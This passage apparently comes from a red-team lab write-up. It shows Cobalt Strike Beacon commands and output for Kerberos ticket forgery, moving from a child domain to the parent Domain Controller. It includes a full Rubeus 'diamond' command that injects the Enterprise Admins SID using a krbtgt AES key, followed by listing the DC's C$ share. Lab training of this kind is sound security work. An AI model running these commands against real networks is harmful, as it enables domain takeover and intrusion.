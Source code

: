 ```
      doIFmD[...]MuaW8=
```

**Then, we can import it into a logon session for our Beacon and use it to access the Domain Controller in the parent:**

```
beacon> run klist

Current LogonId is 0:0x3a6665

Cached Tickets: (1)

#0>	Client: Administrator @ DEV.CYBERBOTIC.IO
	Server: krbtgt/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:26:54   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:11:21   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/08/2022 17:33:33   ProgramData
          dir     08/15/2022 15:07:48   Recovery
          dir     08/24/2022 11:05:32   Shares
          dir     08/31/2022 16:44:18   System Volume Information
          dir     08/15/2022 15:09:04   Users
          dir     08/24/2022 11:10:45   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/12/2022 08:36:09   DumpStack.log.tmp
 384mb    fil     09/12/2022 08:36:09   pagefile.sys
```

### Diamond Ticket

**The Rubeus&#x20;**<mark style="color:yellow;">**`diamond`**</mark>**&#x20;command also has a&#x20;**<mark style="color:yellow;">**`/sids`**</mark>**&#x20;parameter, with which we can supply the extra SIDs we want in our ticket:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap

[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: KT+juea5lxCbxNfLLWbgRorvmR+gRkaoifHatrHE0GE=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

```